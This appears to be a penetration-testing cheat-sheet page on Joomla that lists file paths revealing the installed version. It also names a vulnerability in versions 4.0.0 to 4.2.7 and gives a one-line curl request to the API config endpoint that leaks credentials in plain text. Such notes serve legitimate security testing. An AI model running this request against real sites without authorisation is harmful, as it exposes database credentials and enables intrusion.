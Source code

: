 ```yaml
---
icon: folder-grid
description: Content Management System
---
```


# Joomla

{% hint style="info" %}
<mark style="color:purple;">Documentation</mark>
{% endhint %}

{% embed url="https://docs.joomla.org/" %}

***

{% hint style="info" %}
## <mark style="color:purple;">Enumeration</mark>

### <mark style="color:purple;">Find the Version</mark>:

* <mark style="color:orange;">**`1.0 to 1.5`**</mark> <mark style="color:purple;">**->**</mark>**&#x20;**<mark style="color:red;">**`includes/version.php`**</mark>&#x20;
* <mark style="color:orange;">**`1.6 to 3.x`**</mark>**&#x20;**<mark style="color:purple;">**->**</mark>  <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>
* <mark style="color:orange;">**`4.x`**</mark> <mark style="color:purple;">-></mark> <mark style="color:red;">**`administrator/manifests/files/joomla.xml`**</mark>

<mark style="color:orange;">**`Recommended`**</mark><mark style="color:purple;">: Use the admin interface or the</mark> <mark style="color:orange;">**`Joomla\CMS\Version`**</mark> <mark style="color:purple;">class programmatically.</mark>

***
{% endhint %}

***

{% hint style="danger" %}
## <mark style="color:purple;">Vulnerabilities</mark>

### <mark style="color:orange;">`CVE-2023-23753`</mark> <mark style="color:orange;"></mark><mark style="color:orange;">-</mark> <mark style="color:red;">`4.0.0 to 4.2.7`</mark>

* <mark style="color:purple;">Read about it</mark> [<mark style="color:orange;">**`here`**</mark>](https://vulncheck.com/blog/joomla-for-rce)
* <mark style="color:purple;">Credentials leak in plain text here:</mark>

{% code overflow="wrap" %}
```bash
curl -v http://10.9.49.205/api/index.php/v1/config/application?public=true
```
{% endcode %}
{% endhint %}

***

